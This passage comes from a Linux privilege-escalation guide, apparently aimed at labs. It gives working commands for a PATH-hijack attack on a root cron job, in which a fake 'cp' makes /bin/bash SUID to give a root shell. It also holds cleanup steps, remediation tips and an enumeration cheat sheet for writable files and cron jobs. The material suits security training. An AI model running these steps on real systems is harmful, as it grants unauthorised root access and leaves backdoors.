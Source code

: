 6) PATH hijack in a root-run script/cron (only if PATH is insecure and includes a writable dir first)
```
# Suppose a root cron/service runs: cp /some/file /somewhere (no absolute path)
# And suppose /usr/local/bin is before /bin in PATH and writable by you.

which cp
ls -ld /usr/local/bin
[ -w /usr/local/bin ] && echo "writable: /usr/local/bin"

cat > /usr/local/bin/cp << 'EOF'
#!/bin/bash
/bin/bash -c 'chmod u+s /bin/bash'
/bin/cp "$@"
EOF
chmod +x /usr/local/bin/cp

# Wait for root job to call 'cp' and then:
ls -l /bin/bash
/bin/bash -p -c 'id'
```

Cleanup (good practice in labs)
```
# Remove backdoors/SUID
chmod u-s /bin/bash /tmp/bashroot 2>/dev/null

# Restore backups if you changed system files
[ -f /tmp/passwd.bak ] && cp /tmp/passwd.bak /etc/passwd
[ -f /tmp/shadow.bak ] && cp /tmp/shadow.bak /etc/shadow
[ -f /tmp/app.service.bak ] && cp /tmp/app.service.bak /etc/systemd/system/app.service
[ -f /tmp/backup.sh.bak ] && cp /tmp/backup.sh.bak /usr/local/bin/backup.sh

# Remove added user line from /etc/passwd (example for 'sprivesc')
sed -i '/^sprivesc:/d' /etc/passwd
```

## Practical tips
- Always back up critical files (passwd, shadow, sudoers, service units, scripts) before editing.
- Validate sudoers with visudo to avoid locking out sudo.
- Prefer adding a temporary SUID on a non-critical file (e.g., /tmp/bashroot) rather than altering core binaries.
- Use absolute paths in payloads to avoid PATH surprises.
- Use -p flag with sh/bash to preserve effective UID in SUID shells.
- If uncertain how a root task gets triggered, use pspy to discover cron/timers without root access.
- Document exact paths, perms, and timestamps to support remediation.
- Remediation guidance: remove world-writable bits, fix ownership, pin absolute paths in scripts/services, restrict PATH, and apply least privilege.

## Minimal cheat sheet (one-screen flow)
```
# Baseline
whoami; id; sudo -l 2>/dev/null; echo $PATH

# Weak perms (global + /etc)
find / -type f -user root -perm -0002 -exec ls -l {} \; 2>/dev/null
find / -type d -perm -0002 -exec ls -ld {} \; 2>/dev/null
find /etc -type f -writable -ls 2>/dev/null
ls -l /etc/{passwd,shadow,sudoers,crontab}

# Cron/systemd inventory
cat /etc/crontab 2>/dev/null
ls -la /etc/cron* 2>/dev/null
```